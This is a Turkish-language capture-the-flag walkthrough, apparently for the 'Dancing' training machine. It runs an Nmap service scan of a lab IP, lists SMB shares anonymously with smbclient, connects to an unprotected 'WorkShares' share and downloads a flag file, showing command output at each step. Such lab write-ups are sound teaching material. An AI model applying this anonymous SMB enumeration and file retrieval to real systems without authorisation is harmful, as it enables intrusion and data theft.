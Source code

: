 ```yaml
---
search:
  boost: 2
---
```


# Dancing

!!! info "Target IP Address"

    10.129.20.116

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.20.116 -sV
```

```text title="Output" hl_lines="8"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:02 +03
Nmap scan report for 10.129.20.116
Host is up (0.31s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.85 seconds
```

Aşağıdaki komut ile mevcut Share klasörlerini listele:

```bash
smbclient -N -L 10.129.20.116
```

```text title="Output" hl_lines="6"
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.20.116 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Bulunan `WorkShares` klasörüne SMB bağlantısı gerçekleştir:

```bash
smbclient -N //10.129.20.116/WorkShares
```

Aşağıdaki komut ile bayrağı yerel makineye indir:

```text
get James.P\flag.txt
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
